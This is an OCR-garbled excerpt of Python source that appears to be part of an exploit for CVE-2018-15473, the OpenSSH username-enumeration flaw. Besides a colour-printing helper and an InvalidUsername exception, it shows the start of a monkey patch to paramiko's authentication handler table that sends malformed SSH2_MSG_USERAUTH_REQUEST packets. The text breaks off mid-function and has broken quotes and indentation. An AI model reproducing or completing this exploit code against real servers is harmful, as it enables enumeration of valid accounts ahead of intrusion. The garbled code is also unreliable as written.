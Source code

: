 ```

BLUE = ‘\033[38;5;75m’

GREEN = ‘\033[38;5;149m’

YELLOW = ‘\033[38;5;190m’

```
@staticmethod
def string(string: str, color: str, bold: bool = False) -&gt; str:
    """ Prints the given string in a few different colors.
    Args:
        string: string to be printed
        color:  valid colors "red", "blue", "green", "yellow"
        bold:   T/F to add ANSI bold code
    Returns:
        ANSI color-coded string (str)
    """
    boldstr = Color.BOLD if bold else ""
    colorstr = getattr(Color, color.upper())
    return f'{boldstr}{colorstr}{string}{Color.ENDC}' 
```

class InvalidUsername(Exception):

“”" Raise when username not found via CVE-2018-15473\. “”"

def apply_monkey_patch() -> None:

“”" Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.

patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict

_parse_service_accept

_parse_userauth_failure

_handler_table = {

MSG_SERVICE_REQUEST: _parse_service_request,

MSG_SERVICE_ACCEPT: _parse_service_accept,

MSG_USERAUTH_REQUEST: _parse_userauth_request,

MSG_USERAUTH_SUCCESS: _parse_userauth_success,

MSG_USERAUTH_FAILURE: _parse_userauth_failure,

MSG_USERAUTH_BANNER: _parse_userauth_banner,

MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,

MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,

}

“”"

```
def patched_add_boolean(*args, **kwargs):